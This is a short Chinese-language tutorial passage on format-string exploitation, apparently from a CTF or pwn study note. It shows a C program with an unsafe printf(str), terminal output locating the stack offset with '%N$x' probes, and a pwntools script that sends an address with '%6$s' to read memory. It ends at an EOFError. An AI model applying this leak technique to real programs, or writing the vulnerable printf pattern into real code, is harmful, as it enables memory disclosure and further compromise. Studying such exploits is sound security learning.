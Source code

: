 示例程序：
```python
#include <stdio.h>

int main(void)
{
	char str[100];
	scanf("%s",str);
	printf(str);
	return 0;
}
```

首先测出字符串开头的偏移量：

```
veritas@ubuntu:~/pwn$ ./str
AAAA%1$x
AAAAffa87a68
veritas@ubuntu:~/pwn$ ./str
AAAA%2$x        
AAAAc2
veritas@ubuntu:~/pwn$ ./str
AAAA%3$x
AAAAf766376b
veritas@ubuntu:~/pwn$ ./str
AAAA%4$x
AAAAffb6ad4e
veritas@ubuntu:~/pwn$ ./str
AAAA%5$x
AAAAffab456c
veritas@ubuntu:~/pwn$ ./str
AAAA%6$x    
AAAA41414141
```

由此我们测出偏移为6

然后我们用pwntools编写如下脚本

```python
from pwn import *

context.log_level = 'debug'

cn = process('str')
cn.sendline(p32(0x08048000)+"%6$s")
#cn.sendline("%7$s"+p32(0x08048000))
print cn.recv()
```

执行脚本以后发现 EOFError

![](fmt_25972122d772639e8366f946e4e2c8f4.png)
